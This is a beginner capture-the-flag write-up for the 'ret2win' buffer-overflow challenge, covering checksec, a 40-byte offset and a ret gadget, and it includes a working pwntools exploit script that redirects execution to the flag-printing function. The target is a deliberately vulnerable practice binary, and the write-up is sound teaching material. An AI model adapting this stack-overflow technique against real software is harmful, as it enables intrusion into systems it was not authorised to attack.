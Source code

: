 # ret2win 

This challenge is an easy buffer overflow attack.

## Basic file checks
The NX is enabled, so we can't execute code in the stack to do a shellcode attack 
![Alt Text](img/checksec.png)

## View the Source Code
So we disassemble it and we saw that is a ret2win() function
which it prints the flag when it be called
![Alt Text](img/ret2win_func.png)

The problem here it is that the ret2win() func, is never called by the main
so we are not able to get the flag. That's where the ret2win attack comes (obviously).

## Exploit
The first thing that we want to do is to crash the program to be able to control it.
We found the the offset to be 40 with pwndbg

We need a ret gadget to return to cause it's a x64 bit binary and not x32
We found it with ropper
![Alt Text](img/ret_gadget.png)

After these we wrote a simply python script with pwntools and we took the flag!

#!/usr/bin/env python3 
from pwn import *

elf = context.binary = ELF('./ret2win', checksec=False)
p = process(elf.path)

padding = b"A" * 40
ret_gadget = 0x40053e #ret address

payload = flat(
        padding,
        ret_gadget,
        elf.symbols.ret2win
        )

p.sendlineafter(b'>', payload)
success(p.recvall())

![Alt Text](img/successful_pwntools_exploit.png)

We even write a manual exploit in terminal using python2 that has a lot of fun.
![Alt Text](img/python2_manualexploit.png)
![Alt Text](img/successful_manualexploit.png)
